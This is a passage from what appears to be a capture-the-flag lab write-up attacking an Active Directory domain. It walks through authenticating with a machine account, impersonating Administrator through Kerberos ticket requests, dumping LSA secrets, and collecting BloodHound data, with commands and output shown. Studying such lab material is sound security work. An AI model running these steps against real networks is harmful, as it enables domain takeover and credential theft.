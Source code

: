 ![alt text](<../assets/image_intercept/3er ntlmrelayx success.png>)

```bash
nxc smb 10.10.152.70 -u 'NXLJJEHV$' -p '8Bi}R+w)-I1*:A,'
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\NXLJJEHV$:8Bi}R+w)-I1*:A,
```

Nice !! Let's use this machine account to impersonate Administrator and DCSYNC :

```bash
getTGT.py -dc-ip "DC01.intercept.vl" "intercept.vl"/'NXLJJEHV$':'8Bi}R+w)-I1*:A,' -debug

getST.py -k -no-pass -spn host/WS01.intercept.vl 'intercept.vl'/'NXLJJEHV$' -dc-ip 10.10.152.69 -impersonate Administrator

nxc smb 10.10.152.70 --use-kcache -k                           
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\Administrator from ccache (admin)

nxc smb 10.10.152.70 --use-kcache -k --lsa
```
Dumping the LSA give to us the password of Simon.Bowen :

Let's try his creds on the DC and see in bloodhound if he have any interesting rights :

```bash
nxc ldap 10.10.152.69 -u 'Simon.Bowen' -p 'REDACTED'
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\Simon.Bowen:REDACTED 

cme ldap 10.10.152.69 -u 'Simon.Bowen' -p 'REDACTED' --bloodhound -ns 10.10.152.69 -c all
SMB         10.10.152.69    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\Simon.Bowen:REDACTED 
LDAP        10.10.152.69    389    DC01             Resolved collection methods: objectprops, localadmin, dcom, psremote, session, container, rdp, group, trusts, acl
LDAP        10.10.152.69    389    DC01             Done in 00M 07S
LDAP        10.10.152.69    389    DC01             Compressing output into /root/.cme/logs/DC01_10.10.152.69_2024-09-18_223400bloodhound.zip
```

![alt text](<../assets/image_intercept/4er bloodhound.png>)

So Simon.Bowen is in HelpDesk group and HelpDesk group have GenericAll Rights on CA-MANAGERS group, keep this information :

## ESC7 Attack

Now if we do some ADCS enumeration like that :
